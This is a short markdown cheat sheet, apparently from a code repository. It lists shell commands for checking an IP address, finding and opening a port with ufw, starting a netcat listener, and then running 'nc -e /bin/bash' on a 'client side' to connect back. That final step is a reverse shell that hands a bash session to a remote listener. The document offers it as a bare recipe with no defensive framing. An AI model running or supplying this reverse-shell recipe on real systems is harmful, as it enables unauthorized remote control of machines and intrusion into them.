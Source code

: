 ## Checking ip adress
```
ifconfig
```
## Finding a open port

```
sudo netstat -tunpl
```

## Creating a open port
```
sudo ufw allow [port-number]
```

## Server side command:

```
nc -lnvp "port" -s "ip"
```


## Client side command:

```
nc -e /bin/bash "ip" "port"
```
